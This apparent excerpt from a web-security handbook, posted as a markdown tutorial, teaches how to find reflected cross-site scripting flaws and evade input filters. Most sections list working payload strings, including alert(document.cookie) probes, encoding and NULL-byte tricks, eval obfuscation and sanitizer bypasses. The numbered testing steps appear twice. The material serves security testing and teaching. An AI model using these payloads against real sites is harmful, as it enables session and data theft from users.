 ## Finding and Exploiting XSS Vulnerabilities

A basic approach to identifying XSS vulnerabilities is to use a standard proof-of-concept attack string such as the following:
```
“><script>alert(document.cookie)</script>
```
This string is submitted as every parameter to every page of the application, and responses are monitored for the appearance of this same string. If cases are found where the attack string appears unmodified within the response, the application is almost certainly vulnerable to XSS.

If your intention is simply to identify some instance of XSS within the application as quickly as possible to launch an attack against other application users, this basic approach is probably the most effective, because it can be easily auto- mated and produces minimal false positives. However, if your objective is to perform a comprehensive test of the application to locate as many individual vulnerabilities as possible, the basic approach needs to be supplemented with more sophisticated techniques. There are several different ways in which XSS vulnerabilities may exist within an application that will not be identified via the basic approach to detection:

- Many applications implement rudimentary blacklist-based filters in an attempt to prevent XSS attacks. These filters typically look for expressions such as <script> within request parameters and take some defensive action such as removing or encoding the expression or blocking the request. These filters often block the attack strings commonly employed in the basic approach to detection. However, just because one common attack string is being filtered, this does not mean that an exploitable vulnerability does not exist. As you will see, there are cases in which a working XSS exploit can be created without using <script> tags and even without using commonly filtered characters such as “ < > and /.
 
- The anti-XSS filters implemented within many applications are defective and can be circumvented through various means. For example, suppose that an application strips any <script> tags from user input before it is processed. This means that the attack string used in the basic approach will not be returned in any of the application’s responses. However, it may be that one or more of the following strings will bypass the filter and result in a successful XSS exploit:
 
```  
“><script >alert(document.cookie)</script >
“><ScRiPt>alert(document.cookie)</ScRiPt>
“%3e%3cscript%3ealert(document.cookie)%3c/script%3e
“><scr<script>ipt>alert(document.cookie)</scr</script>ipt>
%00“><script>alert(document.cookie)</script>
```
The first stage in the testing process is to submit a benign string to each entry point and to identify every location in the response where the string is reflected:
 
 1. Choose a unique arbitrary string that does not appear anywhere within the application and that contains only alphabetical characters and there-fore is unlikely to be affected by any XSS-specific filters. For example:

       ```myxsstestdmqlwp```

Submit this string as every parameter to every page, targeting only one parameter at a time.

 2. Monitor the application’s responses for any appearance of this same string. Make a note of every parameter whose value is being copied into the application’s response. These are not necessarily vulnerable, but each instance identified is a candidate for further investigation, as described in the next section.

 3. Note that both GET and POST requests need to be tested. You should include every parameter within both the URL query string and the message body. Although a smaller range of delivery mechanisms exists for XSS vulnerabilities that can be triggered only by a POST request, exploitation is still possible, as previously described.

 4. In any cases where XSS was found in a POST request, use the “change request method” option in Burp to determine whether the same attack could be performed as a GET request.

 5. In addition to the standard request parameters, you should test every instance in which the application processes the contents of an HTTP request header. A common XSS vulnerability arises in error messages, where items such as the Referer and User-Agent headers are copied into the message’s contents. These headers are valid vehicles for delivering a reflected XSS attack, because an attacker can use a Flash object to induce a victim to issue a request containing arbitrary HTTP headers.

 
## Identifying Reflections of User Input
The first stage in the testing process is to submit a benign string to each entry point and to identify every location in the response where the string is reflected.

1. Choose a unique arbitrary string that does not appear anywhere within the application and that contains only alphabetical characters and there-
fore is unlikely to be affected by any XSS-specific filters. For example:

     ```myxsstestdmqlwp```

  Submit this string as every parameter to every page, targeting only one parameter at a time.

2. Monitor the application’s responses for any appearance of this same string. Make a note of every parameter whose value is being copied into the application’s response. These are not necessarily vulnerable, but each instance identified is a candidate for further investigation, as described in the next section.

3. Note that both GET and POST requests need to be tested. You should include every parameter within both the URL query string and the message body. Although a smaller range of delivery mechanisms exists for XSS vulnerabilities that can be triggered only by a POST request, exploitation is still possible, as previously described.

4. In any cases where XSS was found in a POST request, use the “change request method” option in Burp to determine whether the same attack could be performed as a GET request.

5. In addition to the standard request parameters, you should test every instance in which the application processes the contents of an HTTP request header. A common XSS vulnerability arises in error messages, where items such as the Referer and User-Agent headers are copied into the message’s contents. These headers are valid vehicles for delivering a reflected XSS attack, because an attacker can use a Flash object to induce a victim to issue a request containing arbitrary HTTP headers.

## Testing Reflections to Introduce Script

You must manually investigate each instance of reflected input that you have identified to verify whether it is actually exploitable. In each location where data is reflected in the response, you need to identify the syntactic context of that data. You must find a way to modify your input such that, when it is copied into the same location in the application’s response, it results in execution of arbitrary script. Let’s look at some examples.

Example 1: A Tag Attribute Value
Suppose that the returned page contains the following:
 
```<input type=”text” name=”address1” value=”myxsstestdmqlwp”>```

One obvious way to craft an XSS exploit is to terminate the double quotation marks that enclose the attribute value, close the <input> tag, and then employ some means of introducing JavaScript, such as a <script> tag. For example:

 ```“><script>alert(1)</script>```

An alternative method in this situation, which may bypass certain input filters, is to remain within the <input> tag itself but inject an event handler containing JavaScript. For example:
 
```“ onfocus=”alert(1)```
 
## Probing Defense Filters

Very often, you will discover that the server modifies your initial attempted exploits in some way, so they do not succeed in executing your injected script. 
 
If this happens, do not give up! Your next task is to determine what server-side processing is occurring that is affecting your input. There are three broad possibilities:

 - The application (or a web application firewall protecting the application) has identified an attack signature and has blocked your input.

 - The application has accepted your input but has performed some kind of sanitization or encoding on the attack string.

 - The application has truncated your attack string to a fixed maximum length. We will look at each scenario in turn and discuss various ways in which the obstacles presented by the application’s processing can be bypassed.

## Beating Signature-Based Filters
 
 In the first type of filter, the application typically responds to your attack string
with an entirely different response than it did for the harmless string. For
example, it might respond with an error message, possibly even stating that a
possible XSS attack was detected, as shown in Figure 12-8.
 
 If this occurs, the next step is to determine what characters or expressions within your input are triggering the filter. An effective approach is to remove different parts of your string in turn and see whether the input is still being blocked. Typically, this process establishes fairly quickly that a specific expression such as <script> is causing the request to be blocked. You then need to test the filter to establish whether any bypasses exist. There are so many different ways to introduce script code into HTML pages that signature-based filters normally can be bypassed. You can find an alternative means of introducing script, or you can use slightly malformed syntax that browsers tolerate. This section examines the numerous different methods of executing scripts. Then it describes a wide range of techniques that can be used to bypass common filters.
 
 ## Bypassing Filters:HTML
 
Starting with the opening tag name, the most simple and naïve filters can be bypassed simply by varying the case of the characters used:

 ```<iMg onerror=alert(1) src=a>```

Going further, you can insert NULL bytes at any position:
```
<[%00]img onerror=alert(1) src=a>
<i[%00]mg onerror=alert(1) src=a>
```
(In these examples, [%XX] indicates the literal character with the hexadecimal ASCII code of XX. When submitting your attack to the application, generally you would use the URL-encoded form of the character. When reviewing the application’s response, you need to look for the literal decoded character being reflected.)

 **TIP** The NULL byte trick works on Internet Explorer anywhere within the HTML page. Liberal use of NULL bytes in XSS attacks often provides a quick way to bypass signature-based filters that are unaware of IE’s behavior. Using NULL bytes has historically proven effective against web application firewalls (WAFs) configured to block requests containing known attack strings. Because WAFs typically are written in native code for performance reasons, a NULL byte terminates the string in which it appears. This prevents the WAF from seeing the malicious payload that comes after the NULL (see Chapter 16 for more details)
 
**Space Following the Tag Name**

 Several characters can replace the space between the tag name and the first attribute name:
``` 
<img/onerror=alert(1) src=a>
<img[%09]onerror=alert(1) src=a>
<img[%0d]onerror=alert(1) src=a>
<img[%0a]onerror=alert(1) src=a>
<img/”onerror=alert(1) src=a>
<img/’onerror=alert(1) src=a>
<img/anyjunk/onerror=alert(1) src=a>
```
Note that even where an attack does not require any tag attributes, you should always try adding some superfluous content after the tag name, because this bypasses some simple filters:

 ```<script/anyjunk>alert(1)</script>```
 
**Attribute Values**
 
Within attribute values themselves, you can use the NULL byte trick, and you also can HTML-encode characters within the value:
 
```
<img onerror=a[%00]lert(1) src=a>
<img onerror=a&#x6c;ert(1) src=a>
```
Because the browser HTML-decodes the attribute value before processing it further, you can use HTML encoding to obfuscate your use of script code, thereby evading many filters. For example, the following attack bypasses many filters seeking to block use of the JavaScript pseudo-protocol handler:

 ```<iframe src=j&#x61;vasc&#x72ipt&#x3a;alert&#x28;1&#x29; >```

 When using HTML encoding, it is worth noting that browsers tolerate various deviations from the specifications, in ways that even filters that are aware of HTML encoding issues may overlook. You can use both decimal and hexa-decimal format, add superfluous leading zeros, and omit the trailing semicolon.

The following examples all work on at least one browser:
```
<img onerror=a&#x06c;ert(1) src=a>
<img onerror=a&#x006c;ert(1) src=a>
<img onerror=a&#x0006c;ert(1) src=a>
<img onerror=a&#108;ert(1) src=a>
<img onerror=a&#0108;ert(1) src=a>
<img onerror=a&#108ert(1) src=a>
<img onerror=a&#0108ert(1) src=a>
```
 
**Tag Brackets**

In some situations, by exploiting quirky application or browser behavior, it is possible to use invalid tag brackets and still cause the browser to process the tag in the way the attack requires.

Some applications perform a superfluous URL decode of input after their input filters have been applied, so the following input appearing in a request:

 ```%253cimg%20onerror=alert(1)%20src=a%253e```

is URL-decoded by the application server and passed to the application as:

 ```%3cimg onerror=alert(1) src=a%3e```
 
which does not contain any tag brackets and therefore is not blocked by the input filter. However, the application then performs a second URL decode, so
the input becomes:
 
```<img onerror=alert(1) src=a>```
 
which is echoed to the user, causing the attack to execute.

**Glyphs**
 
As described in Chapter 2, something similar can happen when an application framework “translates” unusual Unicode characters into their nearest ASCII
equivalents based on the similarity of their glyphs or phonetics. For example, the following input uses Unicode double-angle quotation marks (%u00AB and
%u00BB) instead of tag brackets:
 
```«img onerror=alert(1) src=a»```
 
The application’s input fi lters may allow this input because it does not contain any problematic HTML. However, if the application framework translates the quotation marks into tag characters at the point where the input is inserted into a response, the attack succeeds. Numerous applications have been found vulnerable to this kind of attack, which developers may be forgiven for overlooking.
 
Some input filters identify HTML tags by simply matching opening and closing angle brackets, extracting the contents, and comparing this to a blacklist
of tag names. In this situation, you may be able to bypass the filter by using superfluous brackets, which the browser tolerates:

 ```<<script>alert(1);//<</script>```

In some cases, unexpected behavior in browsers’ HTML parsers can be leveraged to deliver an attack that bypasses an application’s input filters. For example, the following HTML, which uses ECMAScript for XML (E4X) syntax, does not contain a valid opening script tag but nevertheless executes the enclosed script on current versions of Firefox:

 ```<script<{alert(1)}/></script>```
 
TIP In several of the filter bypasses described, the attack results in HTML that is malformed but is nevertheless tolerated by the client browser. Because numerous quite legitimate websites contain HTML that does not strictly comply to the standards, browsers accept HTML that is deviant in all kinds of ways. They effectively fix the errors behind the scenes before the page is rendered. Often, when you are trying to fine-tune an attack in an unusual situation, it can be helpful to view the virtual HTML that the browser constructs out of the server’s actual response. In Firefox, you can use the WebDeveloper tool, which contains a View Generated Source function that performs precisely this task.

 **Character Sets**

 In some situations, you can employ a powerful means of bypassing many types of filters by causing the application to accept a nonstandard encoding of your attack payload. The following examples show some representations of the string 
 
 ```<script>alert(document.cookie)</script>``` 
 
in alternative character sets:

**UTF-7**
 
```
+ADw-script+AD4-alert(document.cookie)+ADw-/script+AD4-
```
 
**US-ASCII**
 
```
BC 73 63 72 69 70 74 BE 61 6C 65 72 74 28 64 6F ; ¼script¾alert(do
63 75 6D 65 6E 74 2E 63 6F 6F 6B 69 65 29 BC 2F ; cument.cookie)¼/
73 63 72 69 70 74 BE ; script¾
```

**UTF-16**
 
```
FF FE 3C 00 73 00 63 00 72 00 69 00 70 00 74 00 ; ÿþ<.s.c.r.i.p.t.
3E 00 61 00 6C 00 65 00 72 00 74 00 28 00 64 00 ; >.a.l.e.r.t.(.d.
6F 00 63 00 75 00 6D 00 65 00 6E 00 74 00 2E 00 ; o.c.u.m.e.n.t...
63 00 6F 00 6F 00 6B 00 69 00 65 00 29 00 3C 00 ; c.o.o.k.i.e.).<.
2F 00 73 00 63 00 72 00 69 00 70 00 74 00 3E 00 ; /.s.c.r.i.p.t.>. 
``` 
 
**Using JavaScript Escaping**
 
JavaScript allows various kinds of character escaping, which you can use to avoid including required expressions in their literal form. Unicode escapes can be used to represent characters within JavaScript keywords, allowing you to bypass many kinds of filters:
 
```
<script>a\u006cert(1);</script>
```

If you can make use of the ```eval``` command, possibly by using the preceding technique to escape some of its characters, you can execute other commands by passing them to the ```eval``` command in string form. This allows you to use various string manipulation techniques to hide the command you are executing. Within JavaScript strings, you can use Unicode escapes, hexadecimal escapes, and octal escapes:

```
<script>eval(‘a\u006cert(1)’);</script>
<script>eval(‘a\x6cert(1)’);</script>
<script>eval(‘a\154ert(1)’);</script>
```

Furthermore, superfluous escape characters within strings are ignored:

```
<script>eval(‘a\l\ert\(1\)’);</script>
```

**Dynamically Constructing Strings**

You can use other techniques to dynamically construct strings to use in your attacks:

```
<script>eval(‘al’+’ert(1)’);</script>
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41));</script>
<script>eval(atob(‘amF2YXNjcmlwdDphbGVydCgxKQ’));</script>
```

The final example, which works on Firefox, allows you to decode a Base64-encoded command before passing it to ```eval```
 
**Alternatives to eval**

If direct calls to the eval command are not possible, you have other ways to execute commands in string form:
 
```
<script>’alert(1)’.replace(/.+/,eval)</script>
<script>function::[‘alert’](1)</script>
```

**Alternatives to Dots**

If the dot character is being blocked, you can use other methods to perform dereferences:

```
<script>alert(document[‘cookie’])</script>
<script>with(document)alert(cookie)</script>
```
 
**Combining Multiple Techniques**

The techniques described so far can often be used in combination to apply several layers of obfuscation to your attack. Furthermore, in cases where JavaScript is being used within an HTML tag attribute (via an event handler, scripting pseudo-protocol, or dynamically evaluated style), you can combine these techniques with HTML encoding. The browser HTML-decodes the tag attribute value before the JavaScript it contains is interpreted. In the following example, the “e” character in “alert” has been escaped using Unicode escaping, and the backslash used in the Unicode escape has been HTML-encoded:

```
<img onerror=eval(‘al&#x5c;u0065rt(1)’) src=a>
```

Of course, any of the other characters within the onerror attribute value could also be HTML-encoded to further hide the attack:

```
<img onerror=&#x65;&#x76;&#x61;&#x6c;&#x28;&#x27;al&#x5c;u0065rt&#x28;1&
#x29;&#x27;&#x29; src=a>
```

This technique enables you to bypass many filters on JavaScript code, because you can avoid using any JavaScript keywords or other syntax such as quotes, periods, and brackets
 
**Using Encoded Scripts**

On Internet Explorer, you can use Microsoft’s custom script-encoding algorithm to hide the contents of scripts and potentially bypass some input filters:

```
<img onerror=”VBScript.Encode:#@~^CAAAAA==\ko$K6,FoQIAAA==^#~@” src=a>
<img language=”JScript.Encode” onerror=”#@~^CAAAAA==C^+.D`8#mgIAAA==^#~@” src=a>
```
This encoding was originally designed to prevent users from inspecting client-side scripts easily by viewing the source code for the HTML page. It has since been reverse-engineered, and numerous tools and websites will let you decode encoded scripts. You can encode your own scripts for use in attacks via Microsoft’s command-line utility srcenc in older versions of Windows.
 
**Beating Sanitization** 
 
When you encounter this defense, your first step is to determine precisely which characters and expressions are being sanitized, and whether it is still possible to carry out an attack without directly employing these characters and expressions. For example, if your data is being inserted directly into an existing script, you may not need to employ any HTML tag characters. Or, if the application is removing <script> tags from your input, you may be able to use a different tag with a suitable event handler. Here, you should consider all the techniques already discussed for dealing with signature-based filters, including using layers of encoding, NULL bytes, nonstandard syntax, and obfuscated script code. By modifying your input in the various ways described, you may be able to devise an attack that does not contain any of the characters or expressions that the filter is sanitizing and therefore successfully bypass it. If it appears impossible to perform an attack without using input that is being sanitized, you need to test the effectiveness of the sanitizing filter to establish whether any bypasses exist.

 
 As described in Chapter 2, several mistakes often appear in sanitizing filters. Some string manipulation APIs contain methods to replace only the first instance of a matched expression, and these are sometimes easily confused with methods that replace all instances. So if <script> is being stripped from your input, you should try the following to check whether all instances are being removed:
 
```
<script><script>alert(1)</script>
```
 
In this situation, you should also check whether the sanitization is being performed recursively:

```
<scr<script>ipt>alert(1)</script>
```

Furthermore, if the filter performs several sanitizing steps on your input, you should check whether the order or interplay between these can be exploited.
For example, if the filter strips ```<script>``` recursively and then strips ```<object>``` recursively, the following attack may succeed:

```
<scr<object>ipt>alert(1)</script>
```

 When you are injecting into a quoted string in an existing script, it is common to find that the application sanitizes your input by placing the backslash character before any quotation mark characters you submit. This escapes your quotation marks, preventing you from terminating the string and injecting arbitrary script. In this situation, you should always verify whether the backslash character itself is being escaped. If not, a simple filter bypass is possible.
For example, if you control the value foo in:

```
var a = ‘foo’;
```
you can inject:
```
foo\’; alert(1);//
```
 
This results in the following response, in which your injected script executes. Note the use of the JavaScript comment character // to comment out the remainder of the line, thus preventing a syntax error caused by the application’s own string delimiter:

```
var a = ‘foo\\’; alert(1);//’;
```
 
 
 
References: https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwim7cD06oL5AhWZk4kEHcDGAzMQFnoECAYQAQ&url=http%3A%2F%2Fwww.xss-payloads.com%2F&usg=AOvVaw1-hKbfrHEIcldlShn1bjoC

